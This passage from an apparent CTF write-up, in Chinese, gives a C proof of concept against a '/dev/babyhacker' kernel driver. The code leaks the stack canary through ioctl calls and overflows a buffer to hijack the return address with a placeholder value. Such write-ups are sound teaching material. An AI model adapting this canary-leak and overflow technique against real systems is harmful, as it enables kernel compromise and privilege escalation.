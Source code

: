 那么我们只要接收这个值就可以在发送时带有这个值进而控制EIP了，构造如下PoC：

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stropts.h&gt;

uint64_t u64(char * s){
    uint64_t result = 0;
    for (int i = 7 ; i &gt;=0 ;i--){
        result = (result &lt;&lt; 8) | (0x00000000000000ff &amp; s[i]);
    }
    return result;
}

int main()
{
    char leak_value[0x1000];
    unsigned long Send_value[0x1000];
    int fd1 = open("/dev/babyhacker", O_RDONLY);

    save_status();

    ioctl(fd1, 0x30000, -1);
    ioctl(fd1, 0x30002, leak_value);

    // for(int i = 0 ; i * 8 &lt; 0x1000 ; i++ ){
    //     uint64_t tmp = u64(&amp;leak_value[i * 8]);
    //     printf("naddress %d: %pn",i * 8 ,tmp);
    // }

    uint64_t Canary = u64(&amp;leak_value[10 * 8]);
    printf("nCanary: %pn",Canary);

    for(int i = 0 ; i &lt; 40 ; i++ )
        Send_value[i] = 0;
    Send_value[40] = Canary;
    Send_value[41] = 0;
    Send_value[42] = 0xDEADBEEF; 

    ioctl(fd1, 0x30001, Send_value);
    return 0;
}
```
